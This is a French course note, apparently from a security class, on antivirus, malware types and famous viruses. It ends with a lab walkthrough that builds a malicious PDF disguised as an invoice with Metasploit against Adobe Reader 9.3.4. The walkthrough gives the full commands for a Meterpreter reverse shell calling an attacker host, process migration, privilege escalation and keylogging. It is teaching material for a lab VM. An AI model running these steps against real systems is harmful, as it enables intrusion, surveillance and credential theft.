

# Antivirus et PDF malicieux

## Antivirus

Un antivirus est un logiciel qui détecte du code malicieux et l'empêche d'être exécuté.

L'approche traditionnelle d'un anti-virus est la détection via les signatures du virus.

Si l'antivirus en est capable, il va détruire le virus. S'il n'est pas capable de le détruire, il va mettre en quarantaine le fichier contenant le virus.

Une autre approche de certains antivirus est la détection par événements louches. Quand un programme réagit anormalement, l'antivirus peut lever une alerte. Ex: Ouvrir un PDF et le logiciel essaie d'écrire dans des répertoires systèmes.

### Antivirus en entreprise

En entreprise, vous aurez à gérer l'antivirus pour l'ensemble des actifs. Les solutions professionnelles aide avec une console installée sur un serveur, qui permet de déployer l'antivirus, monitorer tous les postes et les mettre à jour constamment.

Ex: [Trendmicro Apex One](https://www.trendmicro.com/en_us/business/products/user-protection/sps/endpoint.html)

## Types de code malicieux

### Virus

Un virus est du code qui se propage et peut causer du tord à un ordinateur. Son mode de propagation est via des applications infectées.

### Ver (_worm_)

Un ver est du code malicieux qui se propage à travers un réseau via un service, tel que le partage de fichier de Windows.

### Bombes logiques (_logic bombs_)

Du code malicieux qui est inactif sur un système et attend un événement pour déclencher une attaque, souvent pour détruire des systèmes ou des données.

### Cheval de Troie (_Trojan horse_)

Logiciel banal contenant du code malicieux. Souvent un logiciel gratuit (ou un jeu) que les victimes installent sans se rendre compte qu'ils installent un logiciel malveillant, comme un logiciel espion.

### Rançongiciel (_ransomware_)

Logiciel qui crypte le poste de travail et demande un paiement pour décrypter celui-ci.

### Palmares

Voici les virus et vers les plus connus de tous les temps :

1. CryptoLocker : Ce virus crypte les ordinateurs ciblés et demande une rançon pour décrypter.
2. ILOVEYOU : Transmis par courriel avec comme sujet I Love You. Les victimes ouvraient la pièce jointe, un fichier VBScript qui infectait le pc.
3. MyDoom : Aussi transmis par courriel, en 2004 on estimait que 25% de tous les courriels envoyés étaient infectés par ce virus.
4. Anna Kournikova : Transmis par courriel avec une fichier qui se faisait passer pour une photo de la joueuse de tennis. Les victimes ouvraient la pièce jointe, un fichier VBScript qui infectait le pc.
5. Slammer : Un ver qui en 15 minute à infecté tellement de systèmes que ça crashé l'Internet.
6. Stuxnet : Créé par le gouvernement américain, ce virus a été créé pour détruire les centrifugeuses du programme nucléaire d'Iran.

## Attaque du client avec un PDF malicieux

Les pirates vont souvent combiner une attaque avec des éléments d'ingénierie sociale. Si l'attaquant a des adresses de courriel valides, il peut créer un site web ou un fichier contenant du code malicieux pour prendre le contrôle de l'ordinateur de la victime.

Ce document va faire la démonstration d'une façon de faire facile pour créer un PDF malicieux à l'aide de Metasploit.

Pour réussir une attaque, il est important d'en savoir le plus possible sur notre cible. Dans le cadre de cette démonstration, la cible est la VM Windows XP sur laquelle est installée une version spécifique d'Adobe Reader (9.3.4).

Pour commencer, il faut trouver une faille à exploiter. Une simple recherche dans Google me donne ce site qui explique quel CVE correspond à la version d'Adobe qui est ciblée.

[CVE for Adobe Reader 9.3.4](https://www.cvedetails.com/metasploit-modules/version-96958/Adobe-Acrobat-Reader-9.3.4.html)

On peut voir le CVE 2010-2883.

Faison une recherche dans Metasploit :

`search cve:2010-2883`

Ça donne le module : **exploit/windows/fileformat/adobe_cooltype_sing**

Ce module permet de créer un PDF qui permet d'exécuter du code dû à un bogue de dépassement de cache.

Utilisons donc ce module :

`use exploit/windows/fileformat/adobe_cooltype_sing`

Il faut donner un nom à notre PDF. Disons que c'est une facture :

`set FILENAME /tmp/facture.pdf`

Cherchons un _payload_ à insérer dans le PDF. Dans notre scénario, nous voulons prendre le contrôle du système de la victime avec **Meterpreter**.

`search type:payload platform:windows meterpreter`

Un des modules à l'air intéressant : **payload/windows/meterpreter/reverse_tcp**. Avec ce module, le système de la victime essaiera de se connecter à notre Kali via TCP lors de l'ouverture du PDF.

`set PAYLOAD windows/meterpreter/reverse_tcp`

Ce module a quelques paramètres :

L'adresse du serveur de commande (notre Kali) :

`set LHOST 192.168.40.4`

Le port d'écoute :

`set LPORT 4455`

Une fois configuré, créons le PDF :

`exploit`

Avant d'envoyer le PDF à notre victime (dans ce cas-ci, on le copie sur la VM de Windows XP), il faut ouvrir l'écoute sur le port 4455.

`use exploit/multi/handler`

`set PAYLOAD payload/windows/meterpreter/reverse_tcp`

`set LPORT 4455`

`set LHOST 192.168.40.4`

`exploit`

Le système attend une connexion de la victime.

Quand la victime ouvre le PDF, notre système affiche ceci, nous sommes dans le système :

C'est le moment d'agir vite. Pour la victime, Adobe Reader semble gelé. C'est que Meterpreter roule dans le processus d'Adobe Reader. Il faut rapidement migrer vers un autre processus système pour éviter que la victime termine le processus.

Regardons les processus actifs :

`ps`

Important de prendre un processus qui est là en permanence sous le nom de l'utilisateur.

`migrate -P 1216`

Une fois la commande terminée, Adobe Reader peut être fermé, nous resterons actifs.

Pour avoir les droits administrateurs de la machine :

`getsystem`

Si nous voulons copier tout ce qui est écrit au clavier :

`keyscan_start`

Pour voir ce qui a été capturé :

`keyscan_dump`

## Testez vos connaissances  

[Petit quiz sur les antivirus et pdf malicieux](https://forms.office.com/r/BP5zBu2nDM)  
